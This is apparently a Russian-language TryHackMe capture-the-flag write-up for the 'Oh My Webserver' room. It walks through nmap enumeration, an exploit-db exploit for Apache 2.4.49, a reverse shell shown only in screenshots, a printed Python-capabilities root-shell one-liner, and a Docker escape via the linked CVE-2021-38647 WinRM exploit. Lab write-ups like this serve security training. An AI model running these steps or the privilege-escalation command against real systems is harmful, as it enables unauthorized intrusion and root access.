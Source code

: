 # Road

:white_check_mark:  [**Apache**](#apache)

:white_check_mark: [**Capabilities(python)**](#capabilities)

:white_check_mark: [**WinRM**](#win_rm)

:white_check_mark: [**Docker**](#docker)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV server.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e0:d1:88:76:2a:93:79:d3:91:04:6d:25:16:0e:56:d4 (RSA)
|   256 91:18:5c:2c:5e:f8:99:3c:9a:1f:04:24:30:0e:aa:9b (ECDSA)
|_  256 d1:63:2a:36:dd:94:cf:3c:57:3e:8a:e8:85:00:ca:f6 (ED25519)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Consult - Business Consultancy Agency Template | Home
|_http-server-header: Apache/2.4.49 (Unix)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/1.png)

## Getting shell

<a name="apache"></a>

Сервер поднят на Apache 2.4.49. Найдем [уязвимость](https://www.exploit-db.com/exploits/50383) для него на exploit-db.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/2.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/3.png)

Клонируем эксплоит и используем.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/4.png)

Видим, что можем использовать команды. Прокинем обратную оболочку

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/5.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/6.png)

## Privilege escalation

Используем **linpeas**, чтобы найти что-нибудь интересное.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/7.png)

<a name="capabilities"></a>

Видим, что можем проэсплуатировать **capabilities** питона. Используем для этого [GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities).
```
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

<a name="docker"></a>

## Docker escape

Получаем рут. Мы находимся в докере. Ищем способ выйти из него. Снова посмотрим на результат работы **linpeas**. Ничего, кроме внутреннего ip-адресса не найдено. Попробуем установить nmap и просканировать порты.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/8.png)

```
nmap -p- 172.17.0.1
```

```
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
MAC Address: 02:42:99:85:EF:78 (Unknown)
```

<a name="win_rm"></a>

Порты 5985, 5986 относятся к **WinRM**. Проэксплуатируем уязвимость [эксплоитом](https://github.com/AlteredSecurity/CVE-2021-38647).

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/9.png)

Мы вышли из докера.
